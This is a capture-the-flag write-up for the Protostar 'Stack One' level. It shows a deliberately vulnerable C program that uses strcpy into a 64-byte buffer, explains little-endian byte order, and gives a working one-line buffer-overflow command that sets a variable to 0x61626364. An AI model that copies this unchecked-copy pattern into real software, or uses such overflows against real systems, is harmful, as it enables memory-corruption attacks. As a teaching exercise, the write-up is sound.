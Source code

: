 # Protostar

## Stack One
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
<ul>
<li>If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.</li>
<li>Protostar is little endian</li>
</ul>
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Just like [Stack 0](https://github.com/RitamDey/My-Simple-Programs/blob/master/CTF/Protostar/Level-0.md), we need to overflow an array to modify a target variable. But here we need to set **modified** to a certain particular value.
From the source we understand the x86 is little-endian, and we need to convert it from little-endinan encoding to a string value that can be passed. I used `pwntools.p32()`, but it can be done with hand.

We know: <ul>
<li> 0x61: 'a' </li>
<li> 0x62: 'b' </li>
<li> 0x63: 'c' </li>
<li> 0x64: 'd' </li>
</ul>
And we know our target value to overwrite in **modified** is **0x61626364**, which when converted from little-endian equals to **0x64636261**, which when decoded usin the ASCII table is **"dcba"**.

Now we to overwrite **modified** with **"dcba"**, we can prefix it with a string of length 64, since **buffer** array is 64 long.
Using command like
```bash
./stack1 $(python -c "print 'A' * 64 + 'dcba'")
``` we can complete the level
